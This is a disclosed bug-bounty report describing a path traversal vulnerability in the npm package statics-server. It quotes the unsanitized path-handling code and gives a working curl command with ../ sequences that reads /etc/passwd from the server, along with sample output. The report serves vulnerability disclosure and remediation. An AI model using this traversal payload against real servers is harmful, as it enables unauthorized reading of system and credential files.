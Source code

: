 # [statics-server] Path Traversal due to lack of provided path sanitization

## Report Details
- **Report ID**: 355456
- **URL**: https://hackerone.com/reports/355456
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-05-21T08:40:12.493Z
- **Disclosed**: 2019-04-03T20:05:24.566Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi Team, 

I would like to report Path Traversal in ```statics-server``` module.
It allows to read content of any arbitrary file from the server.

## Module

**module name:** statics-server
**version:** 0.0.9
**npm page:** https://www.npmjs.com/package/statics-server

### Module Description


npm install statics-server -g

Go to the folder you want to statics-server

Run the server statics-server


### Module Stats

~80-100 downloads/month

## Vulnerability Description

Path Traversal vulnerability in this module allows to go up in directory tree and read content of any file, including critical files like ```/etc/passwd```

Vulnerability exists, because ```staticPath``` is used directly, without any sanitization:

```javascript
    // node_modules/statics-server/index.js, line 13

    const staticPath=path.resolve('.'+decodeURIComponent(req.url));
    const indexPath=path.resolve(staticPath,'index.html');

    (...)

    // node_modules/statics-server/index.js, line 36 

    if(fs.existsSync(staticPath)){
        fs.createReadStream(staticPath).pipe(res);
    }else {
        res.end('404文件未找到');
    }
   
```


## Steps To Reproduce:

Install ```statics-server``` module:

```
$ npm install statics-server
```

Run ```statics-server```:

```
$ ./node_modules/statics-server/index.js 
服务器已经启动
访问localhost:8080

```

Run following curl command to retrieve content of ```/etc/passwd``` (adjust amount of ../ to reflect your system):

```
$ curl -v --path-as-is http://127.0.0.1:8080/../../../../../../../../etc/passwd
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET /../../../../../../../../etc/passwd HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Mon, 14 May 2018 14:53:15 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
(...)
mongodb:x:126:65534::/var/lib/mongodb:/bin/false
* Connection #0 to host 127.0.0.1 left intact
```

## Patch

```staticPath``` should be sanitized against Path Traversal attacks 

## Supporting Material/References:

- Operating system: Ubuntu 16.04
- Node.js 8.11.1
- npm v. 6.0.1
- curl 7.47.0

## Wrap up

- I contacted the maintainer to let him know: [N] 
- I opened an issue in the related repository: [N] 


Regards,

Rafal 'bl4de' Janicki

## Impact

An attacker can exploit this vulnerability to gain an access to any file on the remote server.

## Attachments
No attachments
